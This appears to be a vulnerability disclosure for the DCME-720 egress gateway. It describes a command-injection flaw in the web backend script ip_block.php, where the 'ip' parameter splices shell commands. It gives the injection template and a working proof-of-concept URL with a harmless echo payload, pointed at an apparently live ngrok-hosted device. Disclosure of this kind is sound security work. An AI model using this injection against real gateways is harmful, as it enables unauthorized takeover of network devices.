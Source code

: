 

# Vulnerability overview

The DCME-720 multi-core egress gateway utilizes a high-performance multi-core processor and a dedicated ASIC switching chip. It is a next-generation, high-performance internet egress gateway designed to meet the needs of large user volumes, high traffic volumes, and diverse service types.

A command execution vulnerability exists in its web management backend, allowing attackers to execute arbitrary code and control the device.

Firmware download address: https://www.dcnetworks.com.cn/ruanjian.html?title=dcme-720

 

 

# Code audit

The code location is in the device system /usr/local/www/function/audit/newstatistics/ip_block.php

 

![](img/1.png)

/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;[Splice command];

 

 

 

 

 

# verify

Log in to the web management backend and access the URL where the vulnerability is located:

http://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php

![](img/2.png)

Constructing the payload:

?action=save&switch=1&ip=;echo 123 > 1.txt;

Create a txt file and write a number to it

 

The poc is as follows:
 https://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;echo%20123%20%3E%201.txt;

Execute (displays that the modification failed but the command was executed successfully)

![](img/3.png)

Access the 1.txt file and find that it was created and written successfully

![](img/4.png)

 

 

# Repair suggestions

Modify the web backend PHP code to control or filter relevant parameters

 